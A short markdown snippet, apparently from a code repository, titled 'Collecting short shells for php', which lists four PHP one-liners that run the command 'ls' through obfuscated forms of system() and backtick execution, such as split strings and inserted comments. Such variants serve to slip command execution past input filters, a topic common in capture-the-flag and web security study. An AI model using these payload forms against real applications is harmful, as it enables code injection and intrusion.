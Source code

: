 # Collecting short shells for php

```php
'system'('ls')
'system'/**/('ls')
`ls`
('sy'.'st'.'em')('l'.'s')
```
